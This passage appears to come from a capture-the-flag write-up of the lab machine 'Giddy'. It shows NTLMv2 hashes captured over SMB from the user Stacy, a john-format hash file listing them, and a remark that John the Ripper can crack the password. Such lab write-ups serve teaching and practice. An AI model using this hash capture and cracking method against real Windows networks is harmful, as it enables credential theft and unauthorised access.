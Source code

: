 ~~~
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:eb7cabc3257b6e1fb783257dc135c6e9 
NT_CLIENT_CHALLENGE:010100000000000037b84ad902ced4011bbb4ce038500d1800000000020000000000000000000000
[*] SMB Captured - 2019-02-26 20:51:20 +0200
NTLMv2 Response Captured from 10.10.10.104:49723 - 10.10.10.104
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:

~~~

{% endhighlight %}

At the same time, we can achieve john format password file in specified path.

{% highlight shell %}
root@kali:~# cat pw.txt_netntlmv2 
Stacy::GIDDY:1122334455667788:61ae7af3ca2b17f741a536b66dbc5f47:01010000000000006b068f63f5cdd401e9d1374089ee722200000000020000000000000000000000
Stacy::GIDDY:1122334455667788:823e63d2c40f8e7371451b6d427df435:0101000000000000ab809663f5cdd401fbb9f8a8f29f23cf00000000020000000000000000000000
Stacy::GIDDY:1122334455667788:a6f46c56847372412f2f2efbdc91b3e4:0101000000000000add89d63f5cdd4014b711016199a5cae00000000020000000000000000000000
Stacy::GIDDY:1122334455667788:970b31084f1159dc5f3f88d8634ff3ce:01010000000000004415a463f5cdd401f908739a8756930d00000000020000000000000000000000
Stacy::GIDDY:1122334455667788:592a79993ce2d680292578c0e91571e3:01010000000000004bf3aa63f5cdd40108bfb0813046619500000000020000000000000000000000
Stacy::GIDDY:1122334455667788:fcb7261b28331781821024526c79f785:0101000000000000a930b363f5cdd4019db3fefd5e58060500000000020000000000000000000000
Stacy::GIDDY:1122334455667788:0ac3c4f1fe26f6599525c45777f42b73:01010000000000002147bb63f5cdd401af7ab7fa325a1f5500000000020000000000000000000000
Stacy::GIDDY:1122334455667788:79b0c0199a0ea376964a588b6e689534:0101000000000000d45342d902ced40113e8c7ee19074eb600000000020000000000000000000000
Stacy::GIDDY:1122334455667788:eb7cabc3257b6e1fb783257dc135c6e9:010100000000000037b84ad902ced4011bbb4ce038500d1800000000020000000000000000000000
Stacy::GIDDY:1122334455667788:5dabf08a9de326467d01a72d9ba6f5b8:0101000000000000d8ce52d902ced4017897364fc904360d00000000020000000000000000000000
Stacy::GIDDY:1122334455667788:75d8f9037b40c122710c63b8ec08ffa6:0101000000000000f8965ad902ced4014cf4bac6d908990700000000020000000000000000000000
Stacy::GIDDY:1122334455667788:740c59b5f734961f36bba56c5372ffd0:01010000000000006bad62d902ced40133b27c1378cc3db400000000020000000000000000000000
Stacy::GIDDY:1122334455667788:76eec2d84159141f7d182858182551c4:010100000000000015396bd902ced4010b71ac2a4d8cf7c300000000020000000000000000000000
Stacy::GIDDY:1122334455667788:d15bc192d677e500da515fd590225bb1:0101000000000000a1c473d902ced4015cc71ed4942c2b6f00000000020000000000000000000000
{% endhighlight %}

This time, we got username "GIDDY/STACY" and its NTHASH.<br>
By using john the ripper, we can achieve a password for user stacy.

